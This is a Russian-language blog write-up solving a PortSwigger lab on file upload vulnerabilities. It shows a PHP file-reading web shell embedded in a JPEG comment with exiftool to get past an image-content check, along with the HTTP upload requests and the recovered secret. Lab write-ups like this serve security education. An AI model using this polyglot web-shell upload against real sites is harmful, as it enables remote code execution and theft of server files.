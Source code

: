 ```yaml
---
title: "Remote code execution via polyglot web shell upload"
date: 2025-08-14
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/flawed-validation-of-the-file-s-contents/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/
```

## Solution

Зайду в личный кабинет с помощью кред из условия и получу `POST`-запрос для загрузки картинки.

```http
POST /my-account/avatar HTTP/2
Host: 0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Cookie: session=8AKifUIC65bNLJC89itvg6GyeRgOxIwM
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundary36fb349a4e4b34c8b48dd4ed32a33058
Content-Length: 107749
Origin: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary36fb349a4e4b34c8b48dd4ed32a33058
Content-Disposition: form-data; name="avatar"; filename="dog.jpg"
Content-Type: image/jpeg
```

С загрузкой `.jpg` проблем не было, пробую загрузить `.php` файл со следующим содержимым:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ожидаемо, загрузить файл не получилось. Мне выдало следующую ошибку:

```
Error: file is not a valid image Sorry, there was an error uploading your file.
```

В названии лабы есть спойлер, а именно слово `polyglot`.

Полиглотами называют такие файлы, которые меняют свой тип в зависимости от контекста использования. На сервере идет проверка на то, что загружаемый файл является валидной картинкой.

На сайте `Burp Suite Academy` натолкнулся на тулзу [exiftool](https://exiftool.org/). С ее помощью можно создавать файлы-полиглоты. Для создания полиглота `jpg` + `php` я использовал команду:

```bash
exiftool -Comment="START <?php echo file_get_contents('/home/carlos/secret'); ?> END" ~/Documents/dog.jpg -o polyglot.php
```

Сгенерированный файл я загрузил на сайт.

```http
POST /my-account/avatar HTTP/2
Host: 0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Cookie: session=8AKifUIC65bNLJC89itvg6GyeRgOxIwM
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary3e99b35f9ca8c9ea119de399560746ff
Content-Length: 107821
Origin: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary3e99b35f9ca8c9ea119de399560746ff
Content-Disposition: form-data; name="avatar"; filename="polyglot.php"
Content-Type: text/php

ÿØÿà JFIF      ÿþ CSTART <?php echo file_get_contents('/home/carlos/secret'); ?> ENDÿÛ C 		
...
```

Открою страницу с аватаркой.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_polyglot_web_shell_upload/1.png){: height="200" .align-center}

А вот и нужный мне токен — `ls5MhLfcM6OtELdaGSMSjRCZ55KciAjF`. Сдам его для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_polyglot_web_shell_upload/2.png){: height="200" .align-center}

Успех)